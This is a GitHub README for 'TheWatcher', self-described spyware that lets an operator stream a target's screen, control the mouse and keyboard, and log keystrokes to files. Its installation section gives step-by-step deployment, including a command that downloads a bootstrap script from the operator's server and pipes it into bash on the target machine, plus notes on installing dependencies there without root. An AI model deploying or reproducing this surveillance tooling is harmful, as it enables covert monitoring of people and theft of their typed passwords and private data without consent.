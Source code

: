 # TheWatcher
A spyware you should  be aware of 👀!

## Introduction
The watcher is a spyware program that has the ability to share screen, control mouse and keyboard and log keyboard of the target machine.

## Components
- **Server** : The part of the code that runs on the server. It acts as a points of contact for target machine and the adversary(watcher) machine. This is required as the target and watcher cannot communicate from being within their private networks. Using a server allows multiple watchers. It also avoids the condition when watcher is down and target keeps trying to connect to it (if watcher and target are on the same network).
- **Target** : The part of the code that runs on the target machine. It takes instructions from the server (sent by the watcher) and works on it to let the watcher do whatever it wants.
- **Watcher** : The part of the code that runs on the adversary's machine. It lets the adversary send intructions to the target machine through the server.

## Capabilities
- **Screen Reader** : The target screen reader takes screenshots of the target desktop periodically and sends them to the server. The server sends them to all the watcher screen readers who had requested to watch that target.
- **Controller** : The target controller receives controll events from the server (that were sent by the watcher controller) and controls the mouse or keyboard accordingly.
- **Keylogger** : The keylogger listens for keyboard events and sends them to the server. The server sends them to all the watchers watching that target. The watcher keylogger logs the keys in three different files in different ways (file names shown in parenthesis):
    1. The key codes along with action (press or release) (keys\<timestamp\>.vk)
    2. All the key names along with press of release (shown using ⬇️ and ⬆️). (keys\<timestamp\>.verbose)
    3. Only the printable characters. Approximately as typed by the target user. (keys\<timestamp\>.log)

## Installation
```bash
git clone https://github.com/AbhinavYdv/TheWatcher.git
cd TheWatcher

# --- Configuration
# Inside the Watcher, Server and Target directories, their is a Base/settings.py file.
# Set the address and port of your server their.
# These values should be same in the settings.py files of all three.

# --- Server Installation
# copy the 'Server' folder to your server machine and cd into it.
# copy the 'Files' folder to your server machine in the same directory where 'Server' is located
virtualenv .venv
source .venv/bin/activate
pip install pillow
python main.py

# --- Watcher Installation
# copy The 'Watcher' folder to adversary machine and cd into it.
virtualenv .venv
source .venv/bin/activate
pip install pynput kivymd pillow
python main.py

# --- Target Installation
zip -r Target.zip Target
# copy this Target.zip file to 'Files' folder on your server
# run the following on a target machine to install and run target code on it.
curl <server-url>:<server-port>/target_bootstrap.sh | bash
```

## The Watcher in action


## References
### Screenshot
- mss
    - https://stackoverflow.com/questions/51966558/convert-mss-screenshot-to-pil-image
    - https://stackoverflow.com/questions/71453766/how-to-take-a-screenshot-from-part-of-screen-with-mss-python
- pygobject
    - https://stackoverflow.com/a/782768

### Keylogging and controlling
- [pynput docs](https://pynput.readthedocs.io/en/latest/)

## Research required
- Install linux packages required by our target code on target system without root privileges.
    - Download the required packages using `apt download <package-name>`
    - extarct it using `dpkg -x <file-name>`
    - copy `usr/lib` to `.venv/lib`(virtual env created on target system)
    - copy `usr/include` to `.venv/include`
- Convert keycodes of pynput to characters.
    - went through the source code of pynput to figure out from where is the keycode originating.
    - copied the required data strutures to my code and created functions to convert code to character.
